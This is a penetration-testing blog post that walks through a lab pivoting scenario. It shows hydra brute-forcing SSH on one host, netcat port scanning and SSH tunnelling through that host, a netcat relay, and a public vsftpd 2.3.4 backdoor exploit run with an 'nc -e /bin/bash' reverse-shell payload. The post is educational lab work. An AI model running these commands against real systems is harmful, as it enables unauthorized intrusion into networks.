 ```yaml
---
title:  "Pivoting - part 1. Practical example"
date:   2021-11-04 10:00:00 +0600
header:
  teaser: "/assets/images/19/2021-11-05_02-02.png"
categories: 
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/19/2021-11-05_02-02.png){:class="img-responsive"}         

This article will consider scenarios for attacking protected segments of a corporate network using pivoting techniques. I will focus on a practical example.        

### Pivoting

Pivoting is a technique by which access is organized to those networks to which we do not have access under normal circumstances and obtained using compromised computers. Network isolation will be useless if we compromise a host that has access to all isolated subnets. Thus, an attacker can use the routing capabilities of a compromised machine to access internal corporate resources.            

I will show with an example how an attacker can gain access to a "hidden" network without having direct access to it in the early stages of penetration testing using pivot techniques.       

### Scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/19/pivot-topology.png){:class="img-responsive"}         

### enum and compromise machine A

Firstly, scan ports:          
```bash
nmap -Pn -sV 10.9.1.11
```

![machine A 1](/assets/images/19/2021-05-31_11-56.png){:class="img-responsive"}         

As you can see SSH port `22` is open.     

Let's go to brute via `hydra`:        
```bash
hydra -f -v -V -l root -P rockyou-15.txt -s 22 ssh://10.9.1.11 -t 2
```

![machine A 2](/assets/images/19/2021-05-31_12-26.png){:class="img-responsive"}         

### ssh port forward

Check network interfaces on machine `A`:        
```bash
ifconfig
```

![machine A 3](/assets/images/19/2021-05-31_11-59.png){:class="img-responsive"}         

As you can see we discover another network `7.7.1.0/24`.

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `7.7.7.0/24` interface. To do this, he needs to use a compromised host as a pivot.     

In a compromised host, we cannot use `nmap` for port scanning, so use `netcat`:      
```bash
nc -zv -w1 7.7.1.5 1-100
```

![machine A 4](/assets/images/19/2021-05-31_13-03.png){:class="img-responsive"}         

then banner grabbling via netcat:
```bash
nc 7.7.1.5 21
```

![machine A 5](/assets/images/19/2021-05-31_13-09.png){:class="img-responsive"}         

We found a vulnerable `21` port:     

[https://www.exploit-db.com/exploits/49757](https://www.exploit-db.com/exploits/49757)

for exploitation `7.7.1.5` we use ssh tunnel:             

```bash
ssh -L 10.9.1.6:8021:7.7.1.5:21 -L 10.9.1.6:6200:7.7.1.5:6200 root@10.9.1.11
```

![machine A 6](/assets/images/19/2021-05-31_11-57.png){:class="img-responsive"}         

So what we do in here? We forwarded ports from attacker's machine to victim machine `B` via compromised machine `A` - `10.9.1.11`:      

![SSH tunnel](/assets/images/19/tunnel.png){:class="img-responsive"}         

Why `6200` port? Because, backdoor use this port.        


### exploit and access machine B

For exploitation machine `B` with address `7.7.1.5`, we'll download python exploit for `vsftpd 2.3.4` backdoor:             
[https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)           

Download and run:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 whoami
```

![machine B 1](/assets/images/19/2021-05-31_12-00.png){:class="img-responsive"}         

It's ok, but we cannot start the reverse shell because we do not have a reverse route.     

create back port forwarding for our reverse shell.

on machine `A` run:
```bash
nc -l -p 3333 -c "nc 10.9.1.6 3333"
```

![machine B 2](/assets/images/19/2021-05-31_11-59_1.png){:class="img-responsive"}         

and prepare listener on attacker machine:
```bash
nc -nlvp 3333
```

![machine B 3](/assets/images/19/2021-05-31_12-01_1.png){:class="img-responsive"}         

So what we do in here? Port forwarding is one of the basic steps during tunneling. This technique is used when the service within the detected network is not directly accessible. This is because our routing is unidirectional. We know how to access the internal service, but the service does not have an appropriate route to the attacker's machine. Therefore, we will redirect the all incoming connections to `3333` port from machine `A` to attacker's machine (on `3333` port):    

![netcat forward](/assets/images/19/netcat_fwd.png){:class="img-responsive"}         


on attacker machine run exploit with netcat reverse shell:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 "nc -e /bin/bash 7.7.1.9 3333"
```

![machine B 4](/assets/images/19/2021-05-31_12-01.png){:class="img-responsive"}         

![rev](/assets/images/19/rev.png){:class="img-responsive"}         


check our listener:         

![machine B 5](/assets/images/19/2021-05-31_12-01_2.png){:class="img-responsive"}         

![machine B 6](/assets/images/19/2021-05-31_12-02.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

The attacker discovered secret network by following the steps below:              

- attacker got an access to the `machine A (10.9.1.11)`  which was on same network with attacker via brute `SSH` via `hydra`              
- then he realise that `machine A` has 2 network interfaces           
- scan ports on `machine B` via `nc` from `machine A`                
- then attacker banner grabbling on port `21` on `machine B` with IP address `7.7.1.5`         
- `machine B` have vulnerable `vsftpd 2.3.4` on port `21`              
- reverse port forward via `nc` on `A` for back connect from `B` to attacker machine    
- successfully exploitation of `vsftpd 2.3.4` via python exploit - create reverse shell via `3333` port    
- final    

In the next part I will go to consider an example which use `proxychains` and `metasploit` for pivoting.          

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             